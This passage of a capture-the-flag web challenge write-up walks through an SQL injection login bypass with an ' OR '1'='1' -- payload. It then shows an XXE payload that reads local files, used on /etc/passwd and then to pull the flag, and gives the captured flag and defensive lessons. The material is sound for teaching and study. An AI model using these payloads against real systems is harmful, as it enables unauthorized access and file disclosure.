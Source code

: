 
---

## **4. Exploitation Steps**

1. **Bypass Authentication:** To log in without valid credentials, the following payload was used in the `username` field of the login form, with a random password:
    - **Username:** `' OR '1'='1' --`
    - This payload modified the SQL query to `... WHERE username = '' OR '1'='1' -- ' AND password = '...'`, which is always true, granting access.
2. **Confirm XXE Vulnerability:** After successfully logging in, we accessed the XML parser. To confirm the XXE vulnerability, a payload to read `/etc/passwd` was created and uploaded. The server responded with the contents of the file, confirming local file disclosure was possible.
3. **Locate and Read the Flag:** Based on the `Dockerfile`, the flag was known to be at `/var/www/html/flag.txt`. The final payload was crafted to read this specific file.

---

## **5. Final Exploit / Payload**

The following XML content was saved as `payload.xml` and uploaded to the XML parser to retrieve the flag:

XML
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt"> ]>
<data>&xxe;</data>
```

The server's response contained the flag: `QnQSec{sql1+XXE_1ng3tion_but_using_php_filt3r}`.

---

## **6. Key Takeaways & Lessons Learned**

- **Lesson 1:** Never trust user input. The lack of prepared statements in the login form is a classic, high-severity vulnerability that immediately grants an initial foothold.
- **Lesson 2:** Enabling entity parsing in an XML library (`LIBXML_NOENT`) is almost always a security risk and should be a primary target for testing during any web assessment.
- **Lesson 3:** Context is crucial. When standard file paths like `/flag.txt` don't work, reviewing configuration files like a `Dockerfile` can provide the exact location of the target file, saving significant time.

---

# TIẾNG VIỆT

- **Chuyên mục:** Web
- **Tags:** SQL Injection, XXE, Authentication Bypass, File Disclosure

---
